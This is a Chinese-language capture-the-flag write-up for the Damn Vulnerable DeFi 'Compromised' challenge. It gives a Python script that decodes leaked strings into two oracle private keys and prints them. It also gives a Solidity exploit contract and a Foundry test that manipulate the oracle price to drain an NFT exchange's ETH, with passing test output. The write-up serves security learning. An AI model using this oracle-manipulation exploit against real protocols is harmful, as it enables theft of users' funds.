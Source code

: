 ## 题目 [Compromised](https://github.com/theredguild/damn-vulnerable-defi/tree/v4.0.0/src/compromised)
你在一个非常受欢迎的DeFi项目的Web服务中，得到了一个奇怪的服务器响应。以下是服务器响应的代码片段：  
```
HTTP/2 200 OK
content-type: text/html
content-language: en
vary: Accept-Encoding
server: cloudflare

4d 48 67 33 5a 44 45 31 59 6d 4a 68 4d 6a 5a 6a 4e 54 49 7a 4e 6a 67 7a 59 6d 5a 6a 4d 32 52 6a 4e 32 4e 6b 59 7a 56 6b 4d 57 49 34 59 54 49 33 4e 44 51 30 4e 44 63 31 4f 54 64 6a 5a 6a 52 6b 59 54 45 33 4d 44 56 6a 5a 6a 5a 6a 4f 54 6b 7a 4d 44 59 7a 4e 7a 51 30

4d 48 67 32 4f 47 4a 6b 4d 44 49 77 59 57 51 78 4f 44 5a 69 4e 6a 51 33 59 54 59 35 4d 57 4d 32 59 54 56 6a 4d 47 4d 78 4e 54 49 35 5a 6a 49 78 5a 57 4e 6b 4d 44 6c 6b 59 32 4d 30 4e 54 49 30 4d 54 51 77 4d 6d 46 6a 4e 6a 42 69 59 54 4d 33 4e 32 4d 30 4d 54 55 35
```

你发现与之相关的一个链上交易所在出售一种叫“DVNFT”的（荒谬昂贵的）收藏品，每个售价高达 999 ETH。  
这个价格是由一个链上预言机提供的，基于三个可信报告者的报价：`0x188...088`、`0xA41...9D8`和`0xab3...a40`。  
从仅有的0.1 ETH余额开始，通过拯救交易所中所有可用的ETH来通过挑战。然后将资金存入指定的恢复账户。  


## 分析
在 `Exchange.sol` 合约中，提供了一个简单的 NFT 交易所，用 eth 购买 NFT，并且 eth 就存放在 `Exchange.sol` 合约中。  
其中 NFT 的价格由 `TrustfulOracle.sol` 预言机提供，价格来源的地址由这三个地址提供：
```
address[] sources = [
    0x188Ea627E3531Db590e6f1D71ED83628d1933088,
    0xA417D473c40a4d42BAd35f147c21eEa7973539D8,
    0xab3600bF153A316dE44827e2473056d56B774a40
];
```
此外，题目中给出的信息为两个地址的私钥编码，我们通过解码后恢复私钥可以发现是两个预言机的私钥。

## 题解
1. 先恢复出两个预言机的私钥，从而控制 NFT 价格。
2. 设置 NFT 的价格为 0。
3. 买入一个 NFT。
4. 设置 NFT 的价格为 999 ether，即 exchange 合约中的余额。
5. 卖出刚刚买的 NFT。
6. 把获利转到恢复地址中。

恢复私钥方法(Hexadecimal -> ASCII -> DecodeBase64 -> String)：  
``` python
import base64

def hex_to_ascii(hex_str):
    ascii_str = ''
    for i in range(0, len(hex_str), 2):
        ascii_str += chr(int(hex_str[i:i+2], 16))
    return ascii_str

def decode_base64(base64_str):
    # Decode Base64 to ASCII
    return base64.b64decode(base64_str).decode('utf-8')

leaked_information = [
    '4d 48 67 33 5a 44 45 31 59 6d 4a 68 4d 6a 5a 6a 4e 54 49 7a 4e 6a 67 7a 59 6d 5a 6a 4d 32 52 6a 4e 32 4e 6b 59 7a 56 6b 4d 57 49 34 59 54 49 33 4e 44 51 30 4e 44 63 31 4f 54 64 6a 5a 6a 52 6b 59 54 45 33 4d 44 56 6a 5a 6a 5a 6a 4f 54 6b 7a 4d 44 59 7a 4e 7a 51 30',
    '4d 48 67 32 4f 47 4a 6b 4d 44 49 77 59 57 51 78 4f 44 5a 69 4e 6a 51 33 59 54 59 35 4d 57 4d 32 59 54 56 6a 4d 47 4d 78 4e 54 49 35 5a 6a 49 78 5a 57 4e 6b 4d 44 6c 6b 59 32 4d 30 4e 54 49 30 4d 54 51 77 4d 6d 46 6a 4e 6a 42 69 59 54 4d 33 4e 32 4d 30 4d 54 55 35',
]

from eth_account import Account

for leak in leaked_information:
    hex_str = ''.join(leak.split())
    ascii_str = hex_to_ascii(hex_str)
    decoded_str = decode_base64(ascii_str)
    private_key = decoded_str
    print("Private Key:", private_key)
    
    # Create a wallet instance from the private key
    wallet = Account.from_key(private_key)
    
    # Get the public key (address)
    address = wallet.address
    print("Wallet address:", address)

```
```
Private Key: 0x7d15bba26c523683bfc3dc7cdc5d1b8a2744447597cf4da1705cf6c993063744
Wallet address: 0x188Ea627E3531Db590e6f1D71ED83628d1933088
Private Key: 0x68bd020ad186b647a691c6a5c0c1529f21ecd09dcc45241402ac60ba377c4159
Wallet address: 0xA417D473c40a4d42BAd35f147c21eEa7973539D8
```

用来买卖 NFT 的合约：
``` solidity
contract CompromisedExploit is IERC721Receiver{
    TrustfulOracle oracle;
    Exchange exchange;
    DamnValuableNFT nft;
    uint256 nftId;
    address recovery;

    constructor(    
        TrustfulOracle _oracle,
        Exchange _exchange,
        DamnValuableNFT _nft,
        address _recovery
    ) payable {
        oracle = _oracle;
        exchange = _exchange;
        nft = _nft;
        recovery = _recovery;
    }

    function buy() external payable{
        uint _nftId = exchange.buyOne{value:1}();
        nftId = _nftId;
    }
    
    function sell() external payable{
        nft.approve(address(exchange), nftId);
        exchange.sellOne(nftId);
    }

    function recover(uint amount) external {
        payable(recovery).transfer(amount);
    }

    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external returns (bytes4){
        return this.onERC721Received.selector;
    }

    receive() external payable{
    }
}
```

测试代码：
``` solidity
function setPrice(uint price) internal {
    vm.startPrank(sources[0]);
    oracle.postPrice(symbols[0],price);
    vm.stopPrank();
    
    vm.startPrank(sources[1]);
    oracle.postPrice(symbols[0],price);
    vm.stopPrank();
}

/**
    * CODE YOUR SOLUTION HERE
    */
function test_compromised() public checkSolved {
    CompromisedExploit exploit = new CompromisedExploit{value:address(this).balance}(oracle, exchange, nft, recovery);

    setPrice(0);
    exploit.buy();
    
    setPrice(EXCHANGE_INITIAL_ETH_BALANCE);
    exploit.sell();

    exploit.recover(EXCHANGE_INITIAL_ETH_BALANCE);
}
```

运行测试： 
```
forge test --mp test/compromised/Compromised.t.sol
```

运行结果：
```
Ran 2 tests for test/compromised/Compromised.t.sol:CompromisedChallenge
[PASS] test_assertInitialState() (gas: 40535)
[PASS] test_compromised() (gas: 519221)
Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 9.29ms (1.80ms CPU time)
```


